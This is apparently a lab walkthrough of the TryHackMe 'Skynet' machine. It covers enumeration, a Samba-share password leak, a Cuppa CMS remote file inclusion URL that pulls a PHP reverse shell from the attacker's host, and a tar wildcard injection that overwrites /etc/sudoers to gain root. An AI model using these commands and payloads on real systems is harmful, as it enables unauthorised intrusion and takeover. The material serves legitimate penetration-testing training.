[Link to the machine](https://tryhackme.com/room/skynet)

## Answer 1 {#Answer-1}

My target IP : **10.10.84.89**

We start by simply launching an nmap scan.
```yaml
 nmap -sC -sV -oN nmap -O -T4 [@Target_IP]
```



We can see that 6 services are open, including port 80. We navigate to a web browser to see what it is.



We launch gobuster to discover hidden files or directories.



The "admin" directory is forbidden, so we focus on the "squirrelmail" directory.



We could attempt a brute force attack, but for now, I prefer to revisit the information provided by nmap, which indicates the presence of a Samba share. To exploit it, we can use the tool "enum4linux."
```yaml
 enum4linux 10.10.84.89
```



Bingo! We learn two things: anonymous account usage is allowed, and there is also a share named "**milesdyson**."

Let's connect anonymously and download the content of the "milesdyson" share.





We find that "log1.txt" is a password list.

At this stage, we have a list of passwords and a possible username: milesdyson. We try to connect to the mail server using the passwords from this list and the username milesdyson. Success! It was quite fast.

## Answer 2 {#Answer-2}



In one of the emails, we find the new password for this user, allowing us to connect to their share.



In the "notes" directory, we find the file "important.txt." 



The document mentions a CMS. Let's see how it looks in the browser.



Here is our hidden directory.

## Answer 3 {#Answer-3}

Not knowing what to do at this stage, I relaunch gobuster on this new address.





We get something called Cuppa CMS. 
Let's search if there is a known vulnerability.





> Remote File Inclusion, let's try to inject a reverse shell.

## Answer 4 {#Answer-4}


I'll use the one from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

My target IP : **10.10.220.244**

Remember to modify the address in the script with your own machine's :




In one terminal, we start the Python server where our script is located.

In another terminal, we listen on port 1234 (if you haven't changed it):
```yaml
 nc -lvnp 1234
```

So in a shell :



And in another :



Then, in the web browser: 

```yaml
 http://10.10.84.89/[NAME OF HIDDEN DIRECTORY]/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.220.244:8000/php-reverse-shell.php
```



The reverse shell is in place!






## Answer 5 {#Answer-5}

Now it's time to escalate privileges.



I can't use the "sudo -l" command, so I decide to take a look at the crontab, and there we find an interesting file.



I'll check [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) to see if we can do something with that "tar" command executed as root.



```yaml
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```



After 1 minute :



